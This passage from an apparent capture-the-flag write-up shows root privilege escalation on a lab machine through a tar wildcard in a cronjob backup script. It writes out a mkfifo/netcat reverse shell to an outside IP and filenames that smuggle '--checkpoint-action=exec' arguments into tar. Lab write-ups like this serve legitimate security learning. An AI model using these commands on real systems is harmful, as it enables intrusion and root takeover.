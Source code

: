 ```bash
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
Root has a `backup.sh` running from milesdyson home dir. You can cat the script to see what it is doing.

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
This script opens bash then cd's into the `/var/www folder` then zips everything into a backup.tgz.

Lucky for me this script is zipping a folder I have full rights for. After playing around for a while I stumbled across [this](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) article which shows an exploit with the "*" wildcard for tar.

This looks promising! I first made these files in the `/var/www/html` folder
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.164 1234 >/tmp/f' > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
Due to tar having the wildcard `*` in place it will zip the files and read the filenames and see `--checkpoint-action=exec=sh` and run this as an argument in turn running the file you point it to. We can use this to run cmd's as `root`.

```bash
www-data@skynet:/var/www/html$ ls -la
ls -la
total 76
-rw-rw-rw- 1 www-data www-data     0 Dec  1 13:40 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw- 1 www-data www-data     0 Dec  1 13:38 --checkpoint=1
drwxr-xr-x 8 www-data www-data  4096 Dec  1 13:57 .
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-rw-rw- 1 www-data www-data    79 Dec  1 13:59 shell.sh
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```

Now catch the shell with netcat and wait for the cronjob to proc
